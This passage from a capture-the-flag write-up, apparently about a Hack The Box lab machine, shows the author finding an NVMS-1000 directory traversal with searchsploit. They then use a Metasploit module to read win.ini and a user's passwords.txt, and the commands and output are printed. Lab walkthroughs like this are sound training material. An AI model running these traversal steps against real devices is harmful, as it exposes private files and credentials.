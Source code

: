 ## 2. Getting User

Taking a look at `http://10.10.10.184`.<br>
We can find a login console for `NVMS-1000`.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-12-13/2020-12-13-09-59-04.png)

Search vulnerabilities using `Searchsploit`.<br>
We can find directory traversal vulnerabilities for `NVMS 1000`.
```
root@kali:/# searchsploit nvms
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                                     | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modification    | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow                  | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                                 | hardware/webapps/48311.py
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Since Metasploit has a module for this vulnerability.<br>
First, try to achieve `/windows/win.ini`.
```
msf6 > use auxiliary/scanner/http/tvt_nvms_traversal
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > set rhosts 10.10.10.184
rhosts => 10.10.10.184
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > set filepath /windows/win.ini
filepath => /windows/win.ini
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 92 bytes
[+] File saved in: /root/.msf4/loot/20201213101747_default_10.10.10.184_nvms.traversal_963898.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

---

root@kali:/# cat /root/.msf4/loot/20201213101747_default_10.10.10.184_nvms.traversal_963898.txt
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Next, try to get `/Users/Nathan/desktop/passwords.txt` mentioned in the text file found during FTP enumeration.<br>
We can find a possible passwords list.
```
msf6 > use auxiliary/scanner/http/tvt_nvms_traversal
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > set rhosts 10.10.10.184
rhosts => 10.10.10.184
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > set filepath /users/nathan/desktop/passwords.txt
filepath => /users/nathan/desktop/passwords.txt
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /root/.msf4/loot/20201213102411_default_10.10.10.184_nvms.traversal_836293.txt
[*] Scanned 1 of 1 hosts (100% complete)
```